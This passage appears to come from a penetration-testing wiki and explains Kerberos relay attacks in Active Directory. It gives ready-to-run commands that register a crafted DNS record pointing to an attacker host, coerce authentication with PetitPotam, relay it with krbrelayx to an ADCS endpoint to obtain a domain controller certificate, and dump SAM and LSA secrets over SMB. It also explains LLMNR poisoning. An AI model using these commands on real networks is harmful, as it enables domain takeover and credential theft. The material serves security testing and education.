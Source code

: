 It is therefore necessary to restrict the content of the `CREDENTIAL_TARGET_INFORMATION` structure as much as possible. The minimal `CREDENTIAL_TARGET_INFORMATION` structure contains `1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`.

1. First of all, register the specific DNS record (the NetBIOS being that of **the machine which is going to receive the relay**, for example the PKI, and not the one which will be coerced). This can be performed with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python):

```bash
dnstool.py -u "$DOMAIN\\$USERNAME" -p "$PASSWORD" -r "[ADCS_NETBIOS]1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d "$ATTACKER_IP" --action add "$DC_IP" --tcp
```

2. Then, trigger an authentication coerce (for example, with [PetitPotam](../mitm-and-coerced-authentications/ms-efsr.md)) from the target to the DNS record, and relay the authentication with [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python). For example, here to the [PKI HTTP endpoint](../adcs/unsigned-endpoints.md#Web-endpoint-ESC8):

```bash
# In a first terminal, krbrelayx waiting for an authentication to relay
krbrelayx.py -t 'http://$ADCS_FQDN/certsrv/certfnsh.asp' --adcs --template DomainController -v '$RELAYED_TARGET_SAMNAME'

# In a second terminal, coerce the victim authentication to the DNS record
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD "[ADCS_NETBIOS]1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" $TARGET_IP
```

In the case where the target of the relay (**the machine receiving the relay**) is an unsigned SMB service, and the authentication obtained is privileged, the following command will [dump the SAM and the LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md):

```bash
krbrelayx.py -t smb://$TARGET_FQDN
```

### Abuse from multicast poisoning

When a web server requests Kerberos authentication, it does not use the destination URL to determine the SPN for which an ST is to be retrieved, but rather the response name of the DNS response. Nominally, these two elements should coincide. The client accesses a login URL, performs the DNS query for the server's FQDN, then performs the ST request from the DNS response, and constructs the `AP-REQ`.

However, an attacker in a Man-in-the-Middle position can poison the DNS response and indicate that the HTTP server's FQDN points to him. In this way, the victim will obtain an ST for the server, construct the `AP-REQ`, and send it to the attacker. This is the attack Synacktiv has demonstrated in [this article](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with).

> [!NOTE]
> Note that the technique will not work for SMB clients, because it is not possible to opportunistically respond via LLMNR to non-existent hostnames in SMB with a response name containing a `CREDENTIAL_TARGET_INFORMATION` structure. This structure is explained [in the previous section](relay.md#Abuse-from-a-coerced-authentication).
>
> > Another limitation is that, according to our tests, other local name resolution protocols such as mDNS and NBTNS cannot be abused to carry out the attack. Indeed, while LLMNR responses contain both the query sent by the client and the response, this is not the case of mDNS and NBTNS, which only contain responses.[...]
> >
> > Because mDNS and NBTNS only contain name resolution responses, changing the answer name will actually confuse the HTTP clients, which will not be able to make the connection between the query they sent, and the modified response.
> >
> > _(Quentin Roland, January 27, 2025, [source](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with))_
>
